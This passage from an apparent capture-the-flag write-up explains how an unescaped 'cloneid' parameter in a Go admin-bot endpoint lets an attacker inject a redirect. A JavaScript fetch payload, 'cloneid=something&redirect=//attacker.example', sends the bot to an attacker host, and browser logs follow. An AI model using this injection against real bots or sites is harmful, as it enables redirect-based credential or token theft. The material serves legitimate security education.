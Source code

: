 ```go, hl_lines=12 39
      return
    }
  }

  // Call the bot
  data := struct {
    Actions []interface{} `json:"actions"`
    Browser string        `json:"browser"`
  }{
    Actions: []interface{}{
      // ...
      map[string]string{
        "type": "request",
        "url":  CHALL_URL + "/clone?cloneid=" + cloneid,
      },
      // ...
    },
    Browser: "chrome",
  }

  // ...
}
```

The endpoint accepts a `cloneid` parameter given in the POST request's body,
which if empty just defaults to the ID of the current user.
This parameter is then passed as a query parameter to a URL the bot visits,
but with no escaping whatsoever.
This means that we can pass additional query parameters (e.g., the aforementioned
`redirect` parameter) and get the bot to visit our own website, simply by sending
`cloneid=something&redirect=//attacker.example` in the body of the request.

We can see this in action by sending a request using the following code in the
browser's console (or using your favourite HTTP client) and taking a look at the
headless Chromium's logs:

```js
fetch(`/checkboard`, {
  method: 'POST',
  body: new URLSearchParams({
    cloneid: 'something&redirect=//attacker.example',
  }),
});
```

```hl_lines=17
[INFO] time=4
[INFO] Sleeping for 4 seconds...
[DEBUG] What follows is a list of all the requests which have been performed by the browser:
[DEBUG]   - 200 https://accounts.google.com/ListAccounts?gpsia=1&source=ChromiumBrowser&json=standard
[DEBUG]   - 200 https://update.googleapis.com/service/update2/json?cup2key=13:uZY9aaXIKQsxzpLXZabR1vcg_15CqJ1jrffybVm5VM8&cup2hreq=0bc0f2ab95433858138f92c381c78020f721e52187712d7bfbc035c0241f9914
[DEBUG]   - 200 http://edgedl.me.gvt1.com/edgedl/chromewebstore/L2Nocm9tZV9leHRlbnNpb24vYmxvYnMvYTBmQUFZUHRkSkgtb01uSGNvRHZ2Tm5HQQ/1.0.0.15_llkgjffcdpffmhiakmfcdcblohccpfmo.crx
[DEBUG]   - 200 https://update.googleapis.com/service/update2/json
[DEBUG]   - 200 https://update.googleapis.com/service/update2/json?cup2key=13:wAPwclgoQoguPMBkA2lMUoNigyPGWWCOkZ1lzJVrdWo&cup2hreq=9fbcdeebd981821a4d766860571b378f3bb9d80d5bf8acecc0c112c631bf5314
[DEBUG]   - 200 https://gosweeper.example/login
[DEBUG]   - 200 https://cdn.jsdelivr.net/npm/bootstrap@5.1.3/dist/css/bootstrap.min.css
[DEBUG]   - 200 https://cdn.jsdelivr.net/npm/bootstrap@5.1.3/dist/js/bootstrap.bundle.min.js
[DEBUG]   - 404 https://gosweeper.example/favicon.ico
[DEBUG]   - 200 https://content-autofill.googleapis.com/v1/pages/ChNDaHJvbWUvMTIyLjAuNjI0OC4wEhkJqFiiaKxoaTESBQ2jwhVDIeiPPZAbjv6B?alt=proto
[DEBUG]   - 302 https://gosweeper.example/login
```